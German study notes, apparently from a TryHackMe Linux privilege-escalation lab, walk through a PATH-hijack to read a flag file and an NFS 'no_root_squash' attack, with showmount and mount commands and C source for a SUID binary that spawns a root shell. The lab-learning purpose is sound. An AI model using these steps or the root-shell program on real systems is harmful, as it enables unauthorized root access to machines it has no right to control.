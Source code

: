 In dem Benutzerordner Murdock finden wir in dem Fall ein Python Script welches eine Dependency auf "thm" hat. Das können wir dann ausnutzen und ein kleines script basteln was dann "thm" heißt um die Flag Datei zu lesen.
Erstellen Sie die thm-Datei mit touch thm.

Schreiben Sie das Skript in diese Datei mit `echo "cat /home/matt/flag6.txt" > thm`.
Um diese thm-Datei ausführbar zu machen, müssen wir sie mit dem Befehl `chmod +x thm` umwandeln.
Bevor wir nun ./test ausführen können, müssen wir den Pfad exportieren via  `export PATH=/home/murdoch:$PATH`
Schließlich können wir den Befehl ./test ausführen. Wir haben unsere PATH-Schwachstelle erfolgreich ausgenutzt!

am besten hier nochmal anschauen 
https://dev.to/christinec_dev/try-hack-me-linux-privesc-complete-write-up-20fg

# Privilegien Eskalierung: NFS

Vektoren für die Eskalation von Rechten sind nicht auf den internen Zugriff beschränkt. Auch über freigegebene Ordner und Fernverwaltungsschnittstellen wie SSH und Telnet kann man sich root-Zugriff auf das Zielsystem verschaffen. In einigen Fällen ist es auch erforderlich, beide Vektoren zu nutzen, z. B. einen privaten SSH-Schlüssel für root auf dem Zielsystem zu finden und sich über SSH mit root-Rechten zu verbinden, anstatt zu versuchen, die Berechtigungsstufe des aktuellen Benutzers zu erhöhen.

Ein weiterer Vektor, der eher für CTFs und Prüfungen relevant ist, ist eine falsch konfigurierte Netzwerk-Shell. Dieser Vektor kann manchmal bei Penetrationstests beobachtet werden, wenn ein Netzwerk-Backup-System vorhanden ist.

Die NFS-Konfiguration (Network File Sharing) wird in der Datei `/etc/exports` gespeichert. Diese Datei wird bei der Installation des NFS-Servers erstellt und kann normalerweise von den Benutzern gelesen werden.
Das entscheidende Element für diesen Vektor der Privilegienerweiterung ist die Option „no_root_squash“. Standardmäßig ändert NFS den Root-Benutzer in nfsnobody und entfernt jede Datei, die mit Root-Rechten arbeitet. Wenn die Option „no_root_squash“ auf einer beschreibbaren Freigabe vorhanden ist, können wir eine ausführbare Datei mit gesetztem SUID-Bit erstellen und sie auf dem Zielsystem ausführen.****


Exploitation: 
Auf der Ziel Maschine
Zuerst gilt es sich umzuschauen auf was man genau zugriff hat via `showmount -e *IPAdresse*` darauf hin kann man auch einen Share Mounten auf dem "no_root_squash" enabeld ist. Das geht via `mount -o rw *IPAdresse*:*ZielShare* /tmp/backupsOnAttackermashine` Das ist dann auch f ür das erste alles was man auf der Maschine machen muss.

Auf der Angreifer Maschine:
Hier erstellen wir ein Verzeichnis welches wir dann mit dem Ziel Verbinden/mounten in z.B. Temp. Nachdem wir es Verbunden haben können wir dort zum beispiel das Folgende Script anlegen und dann Compilern. (Anlegen geht direkt via Nano)

```

#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}

```
